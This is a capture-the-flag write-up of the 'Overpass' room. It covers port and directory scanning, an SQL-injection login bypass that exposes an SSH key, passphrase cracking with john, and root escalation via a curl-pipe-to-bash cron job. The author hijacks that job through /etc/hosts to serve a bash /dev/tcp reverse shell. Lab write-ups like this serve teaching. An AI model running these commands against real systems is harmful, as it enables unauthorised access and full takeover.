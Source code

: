 # Overpass

This room is pretty barebones in the questions, so we do everything from scratch!
A good opportunity to test your skills ...

### What happens when a group of broke Computer Science students try to make a password manager? Obviously a perfect commercial success!
yay



## 1. Recon
`❯ nmap -sC -sV -A BOX_IP`

```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-02 22:56 EST
Stats: 0:00:24 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 49.58% done; ETC: 22:56 (0:00:23 remaining)
Stats: 0:00:41 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 66.33% done; ETC: 22:57 (0:00:20 remaining)
Nmap scan report for BOX_IP
Host is up (0.41s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 37:96:85:98:d1:00:9c:14:63:d9:b0:34:75:b1:f9:57 (RSA)
|   256 53:75:fa:c0:65:da:dd:b1:e8:dd:40:b8:f6:82:39:24 (ECDSA)
|_  256 1c:4a:da:1f:36:54:6d:a6:c6:17:00:27:2e:67:75:9c (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Overpass
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 91.19 seconds
```

`❯ gobuster dir -u BOX_IP -w "/usr/share/wordlists/rockyou.txt" -x "html,php,txt"`
```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://BOX_IP
[+] Threads:        10
[+] Wordlist:       /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     html,php,txt
[+] Timeout:        10s
===============================================================
2021/02/02 23:06:26 Starting gobuster
===============================================================
/index.html (Status: 301)
/img (Status: 301)
/downloads (Status: 301)
/aboutus (Status: 301)
/admin (Status: 301)
/admin.html (Status: 200)
/css (Status: 301)
Progress: 1322 / 220561 (0.60%)^C
[!] Keyboard interrupt detected, terminating.
===============================================================
2021/02/02 23:12:32 Finished
===============================================================
```

PS: you can run this with `--script=vuln`, and that works too. But, it took this amount of time:
`Nmap done: 1 IP address (1 host up) scanned in 1216.13 seconds`. So maybe not a good idea. 


## 2. Foothold

hmmm. admin look interesting. Using `/admin.html` gives us a login page.

lets try an sql injection: `69 OR 1=1`

...

works!

okay so name of the person is james and ... we have the ssh private key printed out lmao. lets try:
`❯ ssh -i key james@BOX_IP`

key: the rsa key
james: the username
BOX_IP: IP address of the box.

password protected ;-;

ok so lets take that key and convert it into a better format.
`python ssh2john.py id_rsa > id_rsa.hash`

time to bruteforce!

```
❯ john hash -wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
*******          (key)
Warning: Only 2 candidates left, minimum 4 needed for performance.
1g 0:00:00:07 DONE (2021-02-02 23:49) 0.1385g/s 1986Kp/s 1986Kc/s 1986KC/sa6_123..*7¡Vamos!
Session completed
```
( key hidden :) )


### Hack the machine and get the flag in user.txt 

```
❯ ssh -i key james@BOX_IP
Enter passphrase for key 'key': 
```
I'm in!

`james@overpass-prod:~$ cat user.txt`

:stonks:

## 3. PrivEsc
```
james@overpass-prod:~$ cat todo.txt 
To Do:
> Update Overpass' Encryption, Muirland has been complaining that it's not strong enough
> Write down my password somewhere on a sticky note so that I don't forget it.
  Wait, we make a password manager. Why don't I just use that?
> Test Overpass for macOS, it builds fine but I'm not sure it actually works
> Ask Paradox how he got the automated build script working and where the builds go.
  They're not updating on the website
```

ok so lets copy linpeas to find any issues:

`❯ scp -i path/to/key /path/to/linpeas.sh james@BOX_IP:/destination/path`


now, 
```
james@overpass-prod:~$ chmod +x linpeas.sh 
james@overpass-prod:~$ ./linpeas.sh 
```

hmm. so we have `/etc/hosts` available to edit
```
james@overpass-prod:~$ cat /etc/hosts
127.0.0.1 localhost
127.0.1.1 overpass-prod
127.0.1.1 overpass.thm
# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

and since there's some talk about automated build scipts, we should go look at cron.
```
james@overpass-prod:~$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
# Update builds from latest code
* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
```

ah yeas. look at the last one. it runs every minute, as root. only if we could change the hosting location of `overpass.thm` ... oh wait


so lets edit `/etc/hosts`'s `overpass.thm` to our own ip, and setup a python server using:
```
❯ sudo python3 -m http.server 80
[sudo] password for tanishq: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

note the port 80 since that curl is going to look in the default port. Now, wherever you started this server, from this location onwards, we need to have this exact structure `/downloads/src/buildscript.sh`, so

`❯ mkdir downloads`
`❯ cd downloads`
`❯ mkdir src`
`❯ cd src`
`❯ echo "bash -i >& /dev/tcp/MY_IP/4242 0>&1" > buildscript.sh`

this lets us pretend to be a server, serving that `buildscript.sh` file :)

we are telling the sever to send us a tcp connection to our own ip on the port `4242`.

Meanwhile, setup netcat using:
`❯ nc -nlvp 4242`

-l: listen mode, for inbound connects
-n: numeric-only IP addresses, no DNS
-v: verbose [use twice to be more verbose]
-p port: local port number

and we are in!

### Escalate your privileges and get the flag in root.txt
PWNED 1337
